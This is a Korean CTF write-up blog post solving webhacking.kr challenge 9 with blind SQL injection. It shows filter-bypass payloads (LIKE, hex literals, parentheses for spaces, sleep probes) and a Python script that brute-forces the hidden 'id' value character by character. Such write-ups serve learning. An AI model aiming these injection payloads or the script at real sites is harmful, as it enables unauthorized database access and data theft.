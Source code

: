 ```yaml
---
title: "webhacking.kr 9번 문제"
date: 2019-11-15
excerpt: "파이썬으로 공격하는 BLIND SQL INJECTION"
categories: "webhacking"
comments: true
header:
  image: /assets/images/webhacking09image.png
  teaser: "https://raw.githubusercontent.com/TERADA-DANTE/TERADA-DANTE.github.io/master/_images/teaser/webhacking_teaser.jpg"
toc: true 
toc_label: "이번 포스트에서는 ..." 
toc_icon: "chess-rook"
toc_sticky: true
---
```


## 개요

[webhacking.kr 2번 문제](https://terada-dante.github.io/webhacking/webhacking02/)라는 포스트로 `Blind SQL Injection`에 대해서 설명한 적이 있습니다. 이번 포스트도 `Blind SQL Injection` 에 관해서입니다. 2번 문제 만큼 어렵진 않지만 Blind SQL Injection을 이해하는 데 좋은 문제입니다. 배점은 900점입니다.

페이지의 첫 화면은 다음과 같습니다

![9_1](https://i.imgur.com/0VGdtah.png)

<i class="fas fa-lock" style="color:black"></i>
Password를 입력하는 폼이 하나 등장하고 그 위에 1, 2, 3 이라는 숫자가 있습니다. 소스코드(`Ctrl+Shift+i`)를 확인해보아도 특별히 단서가 될만한 정보가 주어지지 않기 때문에 1, 2, 3 버튼을 눌러봅시다.

1을 누르면 Apple<br>
2를 누르면 Banana<br>
3을 누르면 <br>Secret<br>column : id,no<br>
no 3's id is password<br>
가 출력됩니다.

url을 자세히 보면 `https://webhacking.kr/challenge/web-09/index.php?no=1`에서 no=<a class="purple">1</a>부분이 바뀌면서 각각의 페이지를 출력하고 있습니다. 페이지의 취약점을 확인해보기 위해서 다음과 같이 url을 바꿔보았습니다.

> ../index.php?no=0
> 
> ../index.php?no=sleep(5)
> 
> ../index.php?no=true

no가 0인 경우에는 아무것도 출력되지 않습니다. sleep(5)의 경우 페이지가 5초간 로딩(정지)되었고, true인 경우 no가 1일 때와 같은 결과를 보입니다.

즉, no= 이후의 <a class="purple">보라색으로 표시된 부분</a>이 서버에 데이터를 넘기고, 서버는 그에 대한 응답을 클라이언트(우리)에게 전달합니다.
그 과정에서 취약한 부분이 존재합니다.(SQL Injection)

문제의 목표는 페이지 3에서 알려주고 있습니다.<br>

> `id`, `no`라는 컬럼이 있고 password 는 `id` 컬럼에 에 있다.

즉, 아래의 `정답`을 획득해야합니다.

![9_2](https://i.imgur.com/WY1pLeS.png)

문제는 id 라는 컬럼의 레코드를 **어떻게** 가져올 것인가로 귀결됩니다. 분석과 풀이에서는 문제 해결에 필요한 지식과 문제 해결 과정에 대해서 설명합니다.

## 분석

### like

<a class="MySQL"><i class="fas fa-server"></i> MySQL</a><a class="MySQLVer">8.0</a>

`like` 는 SQL 쿼리의 출력에서 문자열의 일치여부를 검색할 때 활용되는 명령어 입니다. Blind SQL Injection 에서는 `=`가 필터링 된 경우 이를 회피(우회)하기 위해 사용됩니다. 문제에서 like 명령어는 if문과 함께 사용됩니다. 아래 예제에서는 if문과 함께 like 명령어를 사용하여 `=`를 회피하는 방법에 대해서 설명합니다.

#### like 예제

아래와 같은 Table을 상정하고 Blind SQL Injection을 진행해보겠습니다.
{: .notice--info}

```sql
--- Example Table
-----------------------------------------
    | CITY_NAME | TAG     | IS_VISIT |
    | --------- | ------- | -------- |
    | SEOUL     | CAPITAL | 1        |
------------------------------------------
---
```

> Query 1

```sql
SELECT IF(CITY_NAME == 'SEOUL'),'TRUE!', 'FALSE!'
-- CITY_NAME의 레코드가 'SEOUL'이면 'TRUE'를 반환
-- 이외의 경우 'FALSE!'를 반환
```

결과 : TRUE!

> Query 2

```sql
SELECT IF(CITY_NAME LIKE 'SEOUL'),'1', '0'
-- CITY_NAME의 레코드가 'SEOUL'이면 '1'를 반환
-- 이외의 경우 '0'을 반환
```

결과 : 1

> Query 3

```sql
SELECT IF(SUBSTR(CITY_NAME, 1,1) LIKE(0x53)),'1', '0'
-- CITY_NAME의 레코드의 첫번째 글자가 'S'이면 '1'를 반환
-- 이외의 경우 '0'을 반환
```

**Note**: 0x53 은 'S' 의 16진수(hex) 표현<br>
**Note**: 공백을 괄호로 회피(우회)할 수 있습니다.

결과 : 1

### 파이썬을 통한 웹 크롤링

<a class="Python"><i class="fab fa-python"></i> Python</a><a class="PythonVer">3.7.4</a>

[풀이](#풀이)에서 설명하지만 이번 문제는 꽤나 많은 SQL Injection을 시도해야합니다. 일일히 시도하기에는 한계가 있기 때문에 웹 크롤링을 통해 페이지의 HTML을 분석해서 쿼리가 참인 경우를 알아내야 합니다. 파이썬을 통해 웹 크롤링을 하는 방법은 [이 포스트](https://terada-dante.github.io/python/%ED%8C%8C%EC%9D%B4%EC%8D%AC%EC%9C%BC%EB%A1%9C-%EC%9B%B9-%ED%81%AC%EB%A1%A4%EB%A7%81%ED%95%98%EA%B8%B0/)를 참고하시길 바랍니다.

## 풀이

[개요](#개요)에서 해당 문제가 url의 no=<a class="purple">QUERY</a>부분이 바뀌면서 각각의 페이지를 출력하고 있다고 설명하였습니다.

<a class="purple">보라색으로 표시된 부분</a>이 서버에 데이터를 넘기는 부분인데, 이 값을 의도적으로(악의적으로) 조작하여 서버의 Database에 접근해보도록 합시다. URL의 앞부분은 ..로 생략합니다.

> Query 1<br>
> ..?no=IF LENGTH(id) = 3, 3, 0

위 쿼리는 id 의 길이가 3이면 3을 반환, 아닌 경우 0을 반환합니다.

하지만 페이지는 `Access Denied`를 반환합니다. **쿼리의 결과가 참이면 3을 반환하면서 Secret이 출력되어야하고, 결과가 거짓이면 0를 반환하면서 페이지에는 아무것도 출력되지않아야 합니다.** 하지만 `Access Denied`란 다른 경우, 즉 문자열을 Filtering 하고 있다는 것을 의미합니다. 공백을 없애고 `=`를 `LIKE`로 치환하여 쿼리를 작성합니다.

> Query 2<br>
> ..?no=IF(LENGTH(id)LIKE(3),3,0)

페이지에 아무것도 출력되지 않았습니다. 쿼리가 정상적으로 작동되었지만(no=0 일때의 페이지가 출력되었으므로), `id`의 길이는 3이 아닙니다.

여기까지 왔다면 문제를 해결하는 방법은 주어졌습니다.

1. `LIKE()`의 값을 변경시켜가며 Apple이 출력되는 페이지를 찾습니다.(레코드의 길이)

   LIKE(11)에서 no=3 페이지를 반환하므로 id의 길이는 11임을 확인할 수 있습니다.
   {: .notice--info}

2. 다음과 같은 Query를 사용하여 레코드의 각 글자를 특정합니다.

```sql
IF(SUBSTR(id,1,1)LIKE(0x41),3,0)
-- id의 1번째 글자가 'A'인지 확인
IF(SUBSTR(id,1,1)LIKE(0x42),3,0)
-- id의 1번째 글자가 'B'인지 확인
...
IF(SUBSTR(id,1,1)LIKE(0x7A),3,0)
-- id의 1번째 글자가 'z'인지 확인

IF(SUBSTR(id,2,1)LIKE(0x41),3,0)
-- id의 2번째 글자가 'A'인지 확인
...

IF(SUBSTR(id,11,1)LIKE(0x7A),3,0)
-- id의 11번째 글자가 'z'인지 확인
```

위 쿼리를 사용해 n번째 문자열이 `[0-9][a-z][A-Z]`중 어디에 해당하는지 확인합니다.

1번의 경우 1부터 11까지 그 값을 변경하면 되기 때문에 비교적 간단(?)합니다. 하지만, 만약 길이가 20인 경우엔 일일히 그 작업을 해야할까요? 심지어 2번의 경우엔 각 문자열에 대해서 쿼리를 날려서 확인을 해야할까요? 문자열이 숫자일수도, 소문자, 대문자일수도, 특수문자일지도 모릅니다.

결국 문제의 핵심은 `CITY_NAME`의 레코드를 얼마나 효율적으로 획득하는 가에 있습니다. 따라서 파이썬을 사용하여 페이지가 Secret을 출력할 때의 쿼리만을 획득하여 문제의 정답을 확인하는 코드를 작성하였습니다.

아스키코드표를 참조하면 33번부터 126번까지 비밀번호의 후보가 되겠군요. 아스키코드 표는 [여기](https://terada-dante.github.io/it/%EC%95%84%EC%8A%A4%ED%82%A4%EC%BD%94%EB%93%9C-%ED%91%9C/)에서 확인하실 수 있습니다.

```python
# Requests 라이브러리 임포트
import requests

# 공격 함수
def attack(query, no):
    # 기본 url
    main_url = "https://webhacking.kr/challenge/web-09/?no="
    # 쿼리를 보낼 url
    attack_url = main_url + query
    # GET 방식으로 해당 웹 사이트에 접근(Request)
    target = requests.get(attack_url)
    # HTML 소스 가져오기
    html = target.text
    # HTML에 Secret이라는 문자열이 존재하는 경우
    if 'Secret' in html:
        # 어떤 문자열이 성공했는지 저장
        f = open("C://Users/TERADA/result.txt", 'a')
        f.write(chr(no))
        f.close()

# 1번째 문자부터 11번째 문자까지
for i in range(1, 12):
    # ASCII 코드 33번 부터 127번까지
    for j in range(65, 91):
        # ASCII 코드 10진수를 16진수로 변환
        h = hex(j)
        # 시도할 Query 설정
        query = f"IF(SUBSTR(id,{i},1)LIKE({h}),3,0)"
        # 쿼리 준비 완료 - 함수 실행
        attack(query, j)
```

코드실행이 완료되고 저장된 txt파일을 열어보니 다음과 같이 저장이 되어있습니다.

![9_3](https://i.imgur.com/HbwMC8n.png)

정답을 입력해보면 문제가 클리어되지않습니다...🤷‍♂️ 혹시나 하는 마음에 소문자로 변경해서 입력하면... 문제 클리어!💯[^1]

## 마치며

IF문의 참, 거짓 결과를 3, 0으로 하시길 바랍니다. 정확한 설명이 부족하지만 아마 TABLE 내에 id가 Apple, Banana또한 존재하기 때문에 다른 결과를 읽어들이는 경우가 있습니다.

---

[^1]: 이유는 저도 잘 모르겠습니다.

<style>
.purple{
    color: #950fcd;
}
blockquote{
    border-left: 0.25em solid #266477;
}
</style>
<style>
.page__content h1,
.page__content h2
{
    padding-bottom: 0.5em;
    border-bottom: 1px solid #89ddff;
}
</style>

<style>
    p{
        margin-block-start: 0em;
        margin-block-end: 0em;
        margin-inline-start: 0px;
        margin-inline-end: 0px;
        margin-top:0px;
        margin-bottom: 0px;
    }
</style>
<style>
.MySQL {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #52809c;
    color: #f8fafc;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
    content: "MySQL";
}

.MySQLVer {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #f8981d;
    color: #f8fafc;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}

.Javascript {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #f2e21b;
    color: #222;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
}

.Javascriptver {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #000000c7;
    color: #f8fafc;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}

.PHP {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #777bb3;
    color: #f8fafc;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
    content: "MySQL";
}

.PHPver {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #000000c7;
    color: #f8fafc;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}

.Python {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #0277bd;
    color: #f8fafc;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
}

.PythonVer {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #ffc107;
    color: #f8fafc;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}

.HTML {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #df4b25;
    color: #fff;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
}

.HTMLVer {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: black;
    color: #fff;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}

.CSS {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: rgb(40, 164, 217);
    color: #fff;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
}

.CSSVer {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: black;
    color: #fff;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}
.Windows {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #00a8e8;
    color: #fff;
    border-top-left-radius: 3px;
    border-bottom-left-radius: 3px;
    content: "MySQL";
}

.WindowsVer {
    display: inline;
    padding-left: 5px;
    padding-right: 5px;
    padding-top: 1px;
    padding-bottom: 2px;
    font-size: 0.6em;
    text-align: center;
    background-color: #ffe500;
    color: #424242;
    border-top-right-radius: 3px;
    border-bottom-right-radius: 3px;
}
</style>

<style>
.page h1:before {
    padding-right: 0.3em;
    color: #9ddcff;
    content: "/";
}

.page h2:before {
    padding-right: 0.3em;
    color: #9ddcff;
    content: "//";
}

.page h3:before {
    padding-right: 0.3em;
    color: #9ddcff;
    content: "///";
}

.page h4:before {
    padding-right: 0.3em;
    color: #9ddcff;
    content: "////";
}

p>code,
a>code,
li>code,
figcaption>code,
td>code {
    padding-left: 0.18rem;
    padding-right: 0.18rem;
    padding-top: 0.09rem;
    font-size: 0.8em;
    background: #fff;
    color: #5283f3;
    border: solid 1px #e1e4e5;
    border-radius: 0px;
    font-family: open sans,clear sans,helvetica neue,Helvetica,Arial,sans-serif;
    font-weight: bold;
}
</style>
<style>
.notice {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #f8f9f9;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(189,193,196,0.25);
}

.notice--primary {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #f1f1f2;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(111,119,125,0.25);
}

.notice--info {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #ebf5f8;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(59,156,186,0.25);
}

.notice--warning {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #fbf2e6;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(214,127,5,0.25);
}

.notice--success {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #ecf6ec;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(63,166,63,0.25);
}

.notice--danger {
    margin: 2em 0 !important;
    padding: 1em;
    color: #494e52;
    font-family: -apple-system,BlinkMacSystemFont,"Roboto","Segoe UI","Helvetica Neue","Lucida Grande",Arial,sans-serif;
    font-size: .75em !important;
    text-indent: initial;
    background-color: #fdefef;
    border-radius: 4px;
    box-shadow: 0 1px 1px rgba(238,95,91,0.25);
}
</style>
<style>
        .Python {
            display: inline;
            padding-left: 5px;
            padding-right: 5px;
            padding-top: 1px;
            padding-bottom: 2px;
            font-size: 0.6em;
            text-align: center;
            background-color: #0277bd;
            color: #f8fafc;
            border-top-left-radius: 3px;
            border-bottom-left-radius: 3px;
        }

        .PythonVer {
            display: inline;
            padding-left: 5px;
            padding-right: 5px;
            padding-top: 1px;
            padding-bottom: 2px;
            font-size: 0.6em;
            text-align: center;
            background-color: #ffc107;
            color: #f8fafc;
            border-top-right-radius: 3px;
            border-bottom-right-radius: 3px;
        }
</style>
